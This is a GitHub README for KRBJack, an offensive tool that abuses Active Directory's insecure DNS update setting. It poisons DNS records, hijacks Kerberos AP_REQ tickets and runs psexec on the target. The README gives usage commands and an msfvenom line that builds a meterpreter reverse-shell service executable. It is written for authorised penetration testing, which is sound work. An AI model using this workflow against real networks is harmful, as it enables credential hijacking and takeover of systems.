 # KRBJack

This tool can be used to abuse the dangerous `ZONE_UPDATE_UNSECURE` flag on DNS main domain zone in an Active Directory. This flag when set allows anyone unauthenticated to update, add and remove DNS records anonymously. It is quite common to see it during engagements as it is required to get some DHCP servers working with non-windows based systems, to get them update their own records. Even though this flag is extremely dangerous, I've never seen any tool to ease its exploitation. What I wanted to build is a mean to perform Man-in-the-Middle based on this dangerous flag, grab credentials and use them directly to own systems or the entire active directory services (though multiple tools can be used together to perform ntlm relay for example).

The benefit from using this technique of man in the middle is that it goes through routers, as the "official" DNS records are poisonned. If proper routing is set (and if no firewall rule prevents it), someone on another broadcast domain can be targeted (unlike ARP poisoning which only works on you broadcast domain).

Moreover I made the choice to perform fully functionnal AP_REQ hijacking to allow compromission of systems using kerberos instead of NetNTLM.

# Install

```bash
sudo python -m pip install krbjack
```

You do need to install the tool with root rights as it will need to be runnable by root to listen to privileged ports. Alternatively you can have fun with virtual envs. Alternatively you can download this repo and use `poetry` to install it.

# Usage

`sudo krbjack --target-name <targetNBTName> [--target-ip <targetIP>] --domain <domainName> --dc-ip <domainControlerIpAddress> --ports <port1,port2,port3,...> --executable <executable.exe>`

- `--target-name` : The netbios name of your target, the one you will impersonate, the one you want will pwn if successful. Example : `winserv2`;
- `--target-ip` : You might want to specify the IP address of your target. The alternative is to let this tool query the DNS to get its IP addresses. A quick naive scan is performed to choose one IP from the ones returned by the DNS though this method is flawed. Example: `192.168.42.20`;
- `--domain` : The domain name to which your target is joined. Example : `windomain.local`;
- `--dc-ip` : The IP address of the domain controller you will be poisoning DNS records. Can be any domain controller as the DNS zones will be replicated automatically. Example : `192.168.42.10`;
- `--ports` : A list of TCP ports which will be open on your attacker's machine to forward traffic to your target. This list is *very* important because if you omit one port which is open on the legitimate service (your target), clients wont be able to access it during the time of the attack. Setting this list of ports correctly is the key to perform the attack without doing to much of a mess in the network. Example : `135,139,445,80,443,8080`
- `--executable <executable.exe>` : The path to an executable on your attacker's machine. This executable will be uploaded and executed psexec-style on your target if the attack succeeds. Example : `/home/almandin/metx64revtcp.exe`.

    The executable you provide can be either a "standard" executable, or a windows service executable (better). If it is a "standard" executable, windows will kill it when running after a few seconds if it has not ended already, because as it is run as a service, Windows expects it to do proper signaling (behave as a true service). Though it still works, you might want to migrate quickly your meterpreter when the session is established.

    If you use a windows service executable, you're good to go, nothing to add here. You can generate such executables with msfvenom with the `exe-service` format:

        msfvenom -f exe-service -o backdoor.exe -p windows/x64/meterpreter/reverse_tcp LHOST=X LPORT=Y

**Additionnal flags :**

- `--check` : Used to performs no attack at all, just to check if the DNS zone is vulnerable.
- `--no-poison` : Can  be used to set all the mess in place but prevent DNS poisoning from being done. Just in case you managed to poison DNS yourself or if you found another way to point clients to you instead of the legitimate service.

## What are the requirements for this to work ?

First you need to check if the domain you are testing is vulnerable to the main misconfiguration : `ZONE_UPDATE_UNSECURE`. For this you can use external tools such as PingCastle, or let Krbjack do it with the addition of the `--check` flag on the command line.

At the moment this tool only works for systems that do not require SMB Signing. This is a current limitation as the exploited service is SMB for the time being. It means that you cannot target domain controllers most of the time as they have been requiring SMB signing by default for a long time.

## What are the risks of using this tool ?

Just like any other man in the middle attack, you will be receiving connections from any client requesting an access to any service of your target. This means that it can be CPU intensive if the targetted system is highly used.

Moreover, this tool performs live packet inspection on fully-connected TCP streams. Clients DO connect to you before being redirected to the legitimate service. Because of how Kerberos works, it will block some specific connections from behaving correctly as service tickets will be used on the clients' behalf, having the effect to be "consumed" (kerberos tickets cannot be replayed). It means that this tool will make network connection a bit unreliable for every new connection with an interesting AP_REQ in it (AP_REQ for SMB services to our target). HOWEVER, a whitelist is in place to prevent complete blocking of connections. If a client comes several times, only the first AP_REQ will be hijacked. Either it was successful and you pwned your target, or it was not and the client is added to the whitelist to prevent it from being checked again and blocked multiple times. Moreover, other services will still be served and be working correctly thanks to proper forwarding "à la" ssh port forwarding, thoug it might induce lag and delays because of network packets processing on the attacker machine.

## How does it works ?

First the man in the middle is put in place by changing DNS records attached to your target. It abuses the DNS misconfiguration to say `"hey, now myLegitService is now at <attacker's IP>"`. This way, everyone trying to reach the legitimate service will now reach to you instead. The DNS records are also kept poisoned by checking regularly if they have been set back to the right ones (a server or computer might have reboot, or updated a record while the attack was beeing performed).

In the meantime, the tool starts multithreaded TCP servers to mimick your target TCP services. It starts to serve SMB, HTTP, whatever service you state in the command line. It does so just like an SSH port forwarding : when you reach to the attacker's started services, krbjack initiates connection to the true legitimate service on the same port, and forwards every packet from the legitimate client, to the legitimate service. This way, a full man in the middle is performed both ways, this prevents traffic from being completely blocked.

When the man in the middle is performed, every single packet is inspected to find kerberos AP_REQ packets (containing what's necessary to authenticate to services) or other authenticating packets. When such a packet/ticket is found to be sent from a client, it is used in real time to connect to the legitimate service *on behalf* of the legitimate client. This way krbjack can perform authenticated stuff to the legitimate service. At the moment only SMB is supported, meaning that krbjack performs authenticated SMB actions at this time of the attack workflow. It then uses this authenticated channel to check if the legitimate client was an administrator (tries to list directory ADMIN$ - C:\Windows). If it happens that the client was an administrator, man in the middle is stopped, DNS records are fixed ant it then uses the very same authenticated channel to perform a full psexec.

Krbjack also modifies packets on-the-fly depending on the protocol to remove security flags when possible (SMB flags "signing required", "supported" etc... though it is quite naive for the time being).

# Acknowledgements

Project Zero :
- https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html
- https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html

Impacket :
- https://github.com/fortra/impacket

# Disclaimer

This tooling is made only for legal penetration testing and not for any other use. I am not responsible for how it is used by anyone or if it is used to penetrate systems without permission or proper contractual agreements. It is provided as is and without warranty of any sort.